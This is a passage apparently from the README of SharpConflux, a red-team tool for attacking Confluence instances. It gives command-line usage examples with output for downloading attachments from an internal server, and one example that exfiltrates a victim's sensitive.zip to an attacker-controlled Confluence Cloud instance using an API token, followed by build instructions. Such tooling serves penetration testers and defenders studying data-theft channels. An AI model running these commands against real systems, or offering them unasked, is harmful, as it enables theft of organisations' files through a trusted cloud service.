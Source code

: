 ```
[>] Download URI: /download/attachments/98380/file.txt?version=1&modificationDate=1687979558846&api=v2
[+] Downloading attachment (file.txt) to C:\Users\Public\file.txt
[+] Download complete
```

* Authenticate to an on-premise Confluence instance using username+password (by submitting a form to `dologin.action`), then download the attachment with ID 98381 and print it as a base64-encoded string
```
> SharpConflux.exe /url:"http://confluenceinstance.internal.local:8090" /onprem /download:98381 /user:jose /pwd:password /form /b64
[+] Authentication method: username + password
[+] Please note that this method is only supported for Confluence Server / Data Center instances
[+] Sending HTTP POST request with form data to /dologin.action
[+] Downloading the attachment identified by: 98381
[+] Attachment URI: /rest/api/content/98381
[>] Title: file.txt | ID: 98381 | Size: 149 bytes | Version #1 by James (admin) @ 28/06/2023 20:12:38
[>] Download URI: /download/attachments/98380/file.txt?version=1&modificationDate=1687979558846&api=v2
[+] Downloading attachment (file.txt) as a base64-encoded string
SnVuIDI[...REDACTED...]mVnDQo=
[+] Download complete
```

* Authenticate to an operator-controlled Confluence Cloud instance using username + API token, then exfiltrate the `C:\Users\victim\sensitive.zip` file as an attachment to the page with ID 13371337
```
> SharpConflux.exe /url:"https://attackerinstance.atlassian.net" /cloud /upload:13371337 /path:"C:\Users\victim\sensitive.zip" /user:"attacker@example.com" /apitoken:"ATAT[...REDACTED...]DFFB"
[+] Authentication method: username + API token
[+] Please note that this method is only supported for Confluence Cloud instances
[+] Uploading the "C:\Users\victim\sensitive.zip" file as an attachment of the page identified by: 13371337
[+] Attachment URI: https://attackerinstance.atlassian.net/wiki/rest/api/content/13371337/child/attachment
[+] Upload complete
```

## Compilation Instructions

SharpConflux has been built against .NET Framework 4.5. Simply open up the project solution in Visual Studio, choose "Release", and "Build".
It uses the Newtonsoft.Json library and Costura Fody to embed external DLLs into the EXE.

## TO-DO

* Add support for SSO authentication through Microsoft ADFS and Azure AD in Confluence Cloud instances
* Allow operators to view / download previous versions of the same page and attachment
